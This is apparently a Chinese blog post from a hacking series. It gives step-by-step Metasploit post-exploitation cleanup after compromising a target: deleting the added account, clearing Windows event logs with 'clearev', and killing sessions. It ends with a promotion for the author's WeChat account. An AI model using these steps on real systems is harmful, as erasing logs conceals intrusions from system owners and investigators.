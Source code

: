 ```yaml
---
layout: post
category: binghe-code-hack
title: MSF-Meterpreter清理日志
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: MSF-Meterpreter清理日志
lock: need
---
```


# MSF-Meterpreter清理日志

在我们用MSF成功对目标进行了渗透之后，不要忘记要清理渗透过程中留下的日志，下面就如何清理日志和大家分享下。

步骤如下：

- 删除之前添加的账号
- 删除所有在渗透过程中使用的工具
- 删除应用程序、系统和安全日志
- 关闭所有的Meterpreter连接

## 删除之前添加的账号

```
C:\Windows\system32> net user 添加的用户名 /del
```

## 退出目标服务器的shell

```
C:\Windows\system32> exit
或者
C:\Windows\system32> logoff
```

## 删除日志

```
meterpreter > clearev
```

## 退出meterpreter shell

```
meterpreter > exit
```

## 查看所有的MSF连接

```
msf exploit(multi/handler) > sessions
```

## 关闭所有的MSF链接

```
msf exploit(multi/handler) > sessions -K
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)